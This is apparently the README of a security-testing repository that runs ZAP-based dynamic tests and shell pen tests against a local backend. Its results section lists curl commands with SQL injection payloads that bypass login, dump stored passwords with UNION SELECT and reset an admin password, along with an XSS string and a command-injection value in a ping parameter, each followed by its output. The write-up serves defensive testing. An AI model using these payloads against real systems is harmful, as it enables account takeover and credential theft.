 # security-automated-tests

Automated Dynamic Application Security Tests (DAST)

##### Table of Contents  
[1. testing-stack](#testing-stack)<br />
[2. test-repo-dependencies](#repo-deps)<br />
[3. test-run-setup](#test-run)<br />
[4. security-test-observations](./docs/security_test_observations.md)<br />
[5. penetration-test-results-doc](./docs/pen_test_results.txt)<br />
[6. penetration-test-results-explanation](#test-results)<br />
[7. security-test-results-screenshots](#test-results-screenshots)<br />

<a name="testing-stack"></a>  

## 1. Testing stack

- **zap proxy** - zap proxy runner setup for dynamic application security test (DAST) automation      
- **python + javascript nashorn engine** - zap hooks and zap script extensions  
- **shell** - penetration test scripting 
- **docker** - docker for running dast tests

<a name="repo-deps"></a>

## 2. Test repo dependencies  
> **Note**   
> Need to run this step to install steps once for every new repo level dependencies added/updated   
```shell
source install.sh
```

> **Note**  
> docker and colima oci are optional replacement stack to avoid zap installation in local machine

<a name="test-run"></a>   

## 3. Test run setup  
> **Info** 
> Start Backend Server before running pen-tests
```bash
cd backend # from root folder 
pip install -r requirments.txt
source start-server.sh
``` 

> **Info**
> Script to run automated dynamic application security tests
> **Warning**  
> Script will create an auth token using admin credentials
> In actual test setup the username and password should read from envrionment variables
```shell
cd tests/security-tests # from root folder
source run_dast_tests.sh
```

> **Info**
> Script to run automated dynamic application security tests
```shell
source pen_tests.sh > pen_test_results.txt
```

<a name="test-results"></a> 

### Pen Test commands with results
```bash
------------------------------------------------
------------------------------------------------

Testing SQL Injection by passing default data validation to access the registration endpoint

curl -X POST http://localhost:5500/client_registeration -d 'fullName=newJohnDoe29761&userName=newjohndoe25015&email=newnoname20920@maildrop.cc" OR "1"="1&password=password&phone=1234567890'

{"msg":"Email already Exist"}
------------------------------------------------
------------------------------------------------

Testing SQL Injection by passing default data validation to access the login endpoint

curl -X POST http://localhost:5500/client_login -d 'userName=spammer&email=spam@email.com"OR 1=1;--&password=pwd'

{"token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyTmFtZSI6InNwYW1tZXIiLCJlbWFpbCI6InNwYW1AZW1haWwuY29tXCJPUiAxPTE7LS0iLCJyb2xlIjoxfQ.SfASxL9cTm8uSE0yTC7Wx3ilRmNLRQWOcAGdwXrk5Cs"}
------------------------------------------------
------------------------------------------------

Testing SQL Injection to retrieve account details

curl -X POST http://localhost:5500/client_login -d 'userName=spammer&email=spam@email.com" union select password || ":" || email from users;--&password=pwd'

{
  "userName": "spammer",
  "email": "spam@email.com\" union select password || \":\" || email from users;--",
  "role": "admin@1234:admin@test.com"
}
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyTmFtZSI6InNwYW1tZXIiLCJlbWFpbCI6InNwYW1AZW1haWwuY29tXCIgdW5pb24gc2VsZWN0IHBhc3N3b3JkIHx8IFwiOlwiIHx8IGVtYWlsIGZyb20gdXNlcnM7LS0iLCJyb2xlIjoiYWRtaW5AMTIzNDphZG1pbkB0ZXN0LmNvbSJ9.Ket7bPwysNf0cmO2YJmg_ZuIyRabd6Byu9ROUq9vnCA
------------------------------------------------
------------------------------------------------

Testing Resetting the password of the retrieved account

curl -X POST http://localhost:5500/update_info -d "token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyTmFtZSI6InNwYW1tZXIiLCJlbWFpbCI6InNwYW1AZW1haWwuY29tXCIgdW5pb24gc2VsZWN0IHBhc3N3b3JkIHx8IFwiOlwiIHx8IGVtYWlsIGZyb20gdXNlcnM7LS0iLCJyb2xlIjoiYWRtaW5AMTIzNDphZG1pbkB0ZXN0LmNvbSJ9.Ket7bPwysNf0cmO2YJmg_ZuIyRabd6Byu9ROUq9vnCA&currentPassword=admin@1234&newPassword=newpass"

{"msg":"Passowrd Reseted"}
------------------------------------------------
------------------------------------------------

Testing Input Validation

curl -X POST http://localhost:5500/client_registeration -d 'fullName=<script>alert(XSS)</script>&userName=testuser&email=test@example.com&password=test&phone=1234567890'

{"msg":"Email already Exist"}
------------------------------------------------
------------------------------------------------

Testing Insecure Use of Ping

curl -X GET http://localhost:5500/products -d 'source=google.com;ls'

{"msg":"Error"}
------------------------------------------------
------------------------------------------------
Testing Weak Error Message

curl -X POST http://localhost:5500/client_login -d 'email=nonexistent@example.com&password=wrongpassword'

<!doctype html>
<html lang=en>
<title>400 Bad Request</title>
<h1>Bad Request</h1>
<p>The browser (or proxy) sent a request that this server could not understand.</p>

-------------------------------------
------------------------------------

```   



<a name="test-results-screenshots"></a> 

[1.security-tests-report-summary](./docs/dast_report_summary.png)<br /><br />
[2.security-tests-report-sql-injection](./docs/dast_report_sql_injection.png)<br /><br />
[3.security-tests-full-report](./docs/dast_full_report.png)<br /><br />
